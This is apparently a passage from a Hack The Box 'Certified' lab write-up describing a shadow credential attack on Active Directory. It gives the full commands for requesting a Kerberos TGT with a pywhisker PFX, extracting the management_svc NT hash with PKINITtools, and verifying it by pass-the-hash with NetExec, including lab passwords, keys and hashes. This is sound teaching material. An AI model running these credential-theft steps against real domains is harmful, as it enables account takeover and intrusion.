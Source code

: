 Execution of the shadow credential is successful, as illustrated by pywhisker's output:
![Pywhisker Successful Execution](Pasted image 20250314143317.png)
_Pywhisker Successful Execution_

### 2b. Request Valid TGT
The pywhisker repository outlines next steps once key credentials have been added to the target account. In order to accomplish these steps we must first clone dirkjanm's [PKINITtools](https://github.com/dirkjanm/PKINITtools) repository locally onto the system. 
![Pywhisker Next Abuse Steps](Pasted image 20250314144544.png)
_Shadow Credential Attack Next Abuse Steps_

Utilize pywhisker's generated PFX file and password as parameters for `gettgtpkinit.py` in order to request a valid TGT. 
```bash
python3 gettgtpkinit.py -cert-pfx ~/HTB/Certified/I0G1imD1.pfx -pfx-pass 'MsA4HfToDie7UiJTF5BS' certified.htb/management_svc ~/HTB/Certified/manage_svc.ccache
```
- `-cert-pfx ~/HTB/Certified/I0G1imD1.pfx` : Pywhisker generated PFX file for use with PKINIT authentication.  
- `-pfx-pass 'MsA4HfToDie7UiJTF5BS'` : Password for the PFX file generated by pywhisker.
- `certified.htb/management_svc` : Account for which the PFX file represents for PIKINIT authentication. 
- `~/HTB/Certified/manage_svc.ccache` : Filename to store the generated Kerberos credential cache. 

![Requesting TGT](Pasted image 20250314145053.png)
_Requesting TGT for management_svc Account_

Set the populated Kerberos credential cache as our `KRB5CCNAME` environment variable:
```bash
export KRB5CCNAME=$(pwd)/manage_svc.ccache
```
![Setting KRB5CCNAME Environment Variable](Pasted image 20250314145237.png)
_Setting KRB5CCNAME Environment Variable_

### 2c.  Retrieve management_svc NT Hash
With a valid TGT stored in Kerberos credential cache we can utilize `getnthash.py` in order to retrieve the management_svc account's NT hash. 
```bash
python3 /opt/PKINITtools/getnthash.py -key 18916c485c9643149d25ac4acec4aa5d537c9e105329ace1be3fba80b9db421e certified.htb/management_svc
```
`-key 18916c485c...<snip>` : Kerberos encryption key extracted from TGT, outputted by the `gettgtpkinit.py` script.
![Extracting management_svc NT Hash](Pasted image 20250326205158.png)
_Extracting management_svc NT Hash_

We can verify this NT hash using [NetExec](https://github.com/Pennyw0rth/NetExec), proving that we have compromised the management_svc user. 
```bash
netexec smb dc01.certified.htb -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```
